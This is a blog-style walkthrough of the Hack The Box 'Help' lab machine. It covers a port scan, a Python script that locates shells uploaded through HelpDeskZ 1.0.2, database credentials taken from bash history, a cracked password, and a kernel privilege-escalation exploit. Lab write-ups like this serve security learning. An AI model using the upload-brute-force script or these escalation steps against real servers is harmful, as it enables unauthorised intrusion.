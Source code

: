 ```yaml
---
layout: post
title: "HackTheBox: Help write-up"
date: 2019-02-07
excerpt: "File upload that leads to user and then kernel exploit. Too easy right? "
tags: [Hack The Box, Pentesting, File upload, Kernel exploit]
comments: true
feature: https://www.hackthebox.eu/storage/avatars/2f6225d90a3caf56699c3d93e8779d6b.png
---
```


# Hack The Box: Help machine write-up

This is a cool machine based on a file upload which leads to user followed by a kernel exploit that grants us root. Not quite complicated right? The machine is running on port 10.10.10.121.

### Enumeration

First, I enumerate open ports to discover the services running in the machine:

```sh
nmap -sV -sC -oA nmap/initial 10.10.10.121
```

```console
# Nmap 7.70 scan initiated Wed Feb  6 19:50:38 2019 as: nmap -sV -sC -oA nmap/initial 10.10.10.121
Nmap scan report for 10.10.10.121
Host is up (0.031s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb  6 19:50:53 2019 -- 1 IP address (1 host up) scanned in 15.03 seconds
```

As we can see, there is SSH enabled, a node.js instance on port 3000 and a web server on port 80. I didn't even use the node service, so I think this attack vector was a bit unintended. It's the only one that I found, though.

*Accessing web server on port 80*

![Img](/assets/posts_details/Help/images/apache.png "Img")

Upon finding the Apache2 default page I decided to use DirBuster to try to find juicy things. The most interesting things found were these two directories:

* ```/support/```
* ```/support/uploads/tickets/``` (this second one will be used later)

*HelpDeskZ running on ```/support```*

![Img](/assets/posts_details/Help/images/hd1.png "Img")

We see that apart from logging in there is as well the possibility of uploading a ticket.

*Ticket submission page*

![Img](/assets/posts_details/Help/images/hd2.png "Img")

And guess what, it can include a file! Looks like we may have found something exploitable.

*Possibility to upload a file*

![Img](/assets/posts_details/Help/images/hd3.png "Img")

### Exploit

First of all, I tried to upload a PHP file, but got this error.

*Error upon uploading a PHP file*

![Img](/assets/posts_details/Help/images/file_blocked.png "Img")

So then I searched on the internet and came across a python code that was supposedly exploiting this file upload feature:

```py
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

Apparently, it tries to brute-force the name of a file, which is an md5 hash of the file + the time at which it was created. Weird... Then, I found out the code was in GitHub! You can find it [here](https://github.com/evolutionscript/HelpDeskZ-1.0). So I started going through it and found out a really interesting thing on this piece of code:

*Vulnerable piece of code*

![Img](/assets/posts_details/Help/images/github1.png "Img")

![Img](/assets/posts_details/Help/images/github2.png "Img")

Unbelievable! They are storing the file and afterwards doing the security check! The developers must have thought that security would be kept by just hashing the name of the file with the upload time.

It took me some time to realise why the script wasn't working, but I finally realised that it was because the path wasn't right, all files were being uploaded to ``/support/uploads/tickets/``. I tried uploading an image to check this and it worked!

*Image uploaded path*

![Img](/assets/posts_details/Help/images/image_upload.png "Img")

Now I just needed to upload a shell and launch the script! Surprisingly, we're already user ``help``!. So I tried reading the ``user.txt`` hash and got it without problem:

*Getting a reverse shell*

![Img](/assets/posts_details/Help/images/shell.png "Img")

### Privilege escalation

I inspected the system and found inside the ``.bash_history`` file this entry:

```mysql -uroot -phelpme support```

So I ran it and got different tables, from which ``users`` was definitely the most interesting one:

```console
mysql> show tables;
+------------------------+
| Tables_in_support      |
+------------------------+
| articles               |
| attachments            |
| canned_response        |
| custom_fields          |
| departments            |
| emails                 |
| error_log              |
| file_types             |
| knowledgebase_category |
| login_attempt          |
| login_log              |
| news                   |
| pages                  |
| priority               |
| settings               |
| staff                  |
| tickets                |
| tickets_messages       |
| users                  |
+------------------------+
19 rows in set (0.00 sec)

mysql> select * from users;
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
| id | salutation | fullname | email                 | password                                 | timezone        | status |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
|  1 |          0 | helpme   | helpme@helpme.com     | c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca | Europe/Brussels |      1 |
|  2 |          0 | xcvxv    | lolololol@yopmail.com | ec09fa0d0ba74336ea7fe392869adb198242f15a | NULL            |      1 |
+----+------------+----------+-----------------------+------------------------------------------+-----------------+--------+
9 rows in set (0.00 sec)
```

I cracked helpme's hash ``c3b3bd1eb5142e29adb0044b16ee4d402d06f9ca`` and got ``Welcome1``. Then, I tried loggin in as ``help`` through SSH with that password and success! That made things so much easier.

Getting back to the privesc part, I ran ``uname -a`` to find the kernel's version to get the following:

```
help@help:~$ uname -a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```

It was obviously Linux Kernel 4.4 so I used ``searchsploit`` to try to find some useful exploit. And indeed there was a local privilege escalation, which I finally used.

*Finding the right exploit with searchsploit*

![Img](/assets/posts_details/Help/images/searchsploit.png "Img")

I copied the C code to the machine serving it with python SimpleHTTPServer and then using wget. Once there, I just needed to compile and run it!

*Getting root*

![Img](/assets/posts_details/Help/images/root.png "Img")

Note: I'll keep the hash here in case it is needed to read write-ups (b7fe6082dcdf0c1b1e02ab0d9daddb98).

Really nice machine! Kudos to the creator! I hope you enjoyed reading.

---
<center><i>Diego Bernal Adelantado</i></center>
